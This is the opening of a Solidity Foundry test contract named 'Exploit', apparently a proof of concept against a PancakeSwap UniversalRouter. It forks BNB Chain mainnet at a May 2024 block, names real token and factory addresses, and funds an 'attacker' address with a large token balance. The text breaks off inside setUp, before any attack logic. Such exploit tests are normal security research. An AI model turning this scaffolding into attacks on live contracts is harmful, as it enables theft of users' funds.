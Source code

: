 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "forge-std/Test.sol";
import {ERC20} from "solmate/src/tokens/ERC20.sol";
// import {StableSwapTest} from "./stableSwap/StableSwap.t.sol";

import {IPermit2} from "permit2/src/interfaces/IPermit2.sol";
import {IPancakeV2Factory} from "../src/modules/pancakeswap/v2/interfaces/IPancakeV2Factory.sol";

import {IStableSwapFactory} from "../src/interfaces/IStableSwapFactory.sol";
import {IStableSwapInfo} from "../src/interfaces/IStableSwapInfo.sol";

import {UniversalRouter} from "../src/UniversalRouter.sol";
import {ActionConstants} from "pancake-v4-periphery/src/libraries/ActionConstants.sol";
import {Constants} from "../src/libraries/Constants.sol";
import {Commands} from "../src/libraries/Commands.sol";
import {RouterParameters} from "../src/base/RouterImmutables.sol";

contract Exploit is Test {
  ERC20 constant USDC = ERC20(0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d);
  ERC20 constant BUSDC = ERC20(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56);
  ERC20 constant CAKE = ERC20(0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82);
  ERC20 constant WETH9 = ERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

  IPancakeV2Factory constant FACTORY = IPancakeV2Factory(0xcA143Ce32Fe78f1f7019d7d551a6402fC5350c73);
  IPermit2 constant PERMIT2 = IPermit2(0x31c2F6fcFf4F8759b3Bd5Bf0e1084A055615c768);

  IStableSwapFactory STABLE_FACTORY = IStableSwapFactory(0x25a55f9f2279A54951133D503490342b50E5cd15);
  IStableSwapInfo STABLE_INFO = IStableSwapInfo(0x150c8AbEB487137acCC541925408e73b92F39A50);

  address helperUser = vm.addr(999);
  address user = vm.addr(1234);
  address attacker = vm.addr(1111);

  UniversalRouter public router;

  uint256 WETH_AMOUNT;
  uint256 CAKE_AMOUNT;

  uint256 ATTACKER_BUSDC_AMOUNT = 10_000_000e18;

  function setUp() public {
        // BSC: May-09-2024 03:05:23 AM +UTC
        vm.createSelectFork(vm.envString("FORK_URL"), 38560000);
        // setUpTokens();

        RouterParameters memory params = RouterParameters({
            permit2: address(PERMIT2),
            weth9: address(WETH9),
            v2Factory: address(FACTORY),
            v3Factory: address(0),
            v3Deployer: address(0),
            v2InitCodeHash: bytes32(0x00fb7f630766e6a796048ea87d01acd3068e8ff67d078148a3fa3f4a84f69bd5),
            v3InitCodeHash: bytes32(0),
            stableFactory: address(STABLE_FACTORY),
            stableInfo: address(STABLE_INFO),
            v4Vault: address(0),
            v4ClPoolManager: address(0),
            v4BinPoolManager: address(0),
```